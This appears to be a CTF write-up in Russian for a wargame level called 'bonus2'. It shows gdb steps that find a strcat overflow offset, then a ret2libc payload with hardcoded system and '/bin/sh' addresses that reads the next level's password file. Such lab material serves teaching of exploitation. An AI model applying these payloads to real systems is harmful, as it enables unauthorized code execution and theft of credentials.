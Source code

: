 # Вызов strcat уязвим для переполнения буфера
```
0x08048517 <+147>:	call   0x8048370 <strcat@plt>
```
# Мы обнаруживаем, что программа использует `memcmp` для сравнения переменной окружения LANG с 'nl' или 'fi' ...
# ... затем объединяем соответствующее сообщение 'Hello' с нашим первым аргументом

# Давайте попробуем найти, при каком смещении программа segfault перед установкой LANG
```
gdb> pattern create 50
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
gdb> r 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA' 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
SIGSEGV
gdb> pattern search
Registers contain pattern buffer:
EBP+0 found at offset: 26
```
# Если переменная LANG установлена как 'nl'
```
$> export LANG='nl'
gdb> r 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA' 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA'
SIGSEGV
gdb> pattern search
Registers contain pattern buffer:
EBP+0 found at offset: 19
EIP+0 found at offset: 23
```
# Теперь нам нужно найти, какой argv [1] или argv [2] позволяет перезаписывать EIP
```
gdb> r 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA' $(python -c "print 'B'*27")
[...]
EIP: 0x42424242 ('BBBB')
[...]
```
# Хорошо, мы видим, что можем перезаписать EIP вторым аргументом
# Затем мы воспользуемся эксплойтом ret2libc для вызова функции libc `system`
```
gdb> info func system
0xb7e6b060  system
gdb> info proc map
[...]
0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
[...]
gdb> find 0xb7e2c000, 0xb7fd2000, "/bin/sh"
0xb7f8cc58
1 pattern found.
```
# Если мы поставим точку останова после инструкции `ret` функции` greetuser`
# Мы видим, что 4-7 байты нашего первого аргумента передаются вызову `system`
# Тогда нам просто нужно подготовить нашу полезную нагрузку
```
$> export LANG='nl'
$> ./bonus2 $(python -c "print 'DUMM' + '\x58\xcc\xf8\xb7' + 'A'*42") $(python -c "print 'A'*23 + '\x60\xb0\xe6\xb7'")
> cat /home/user/bonus3/.pass
```
>71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587

# ╮(￣_￣)╭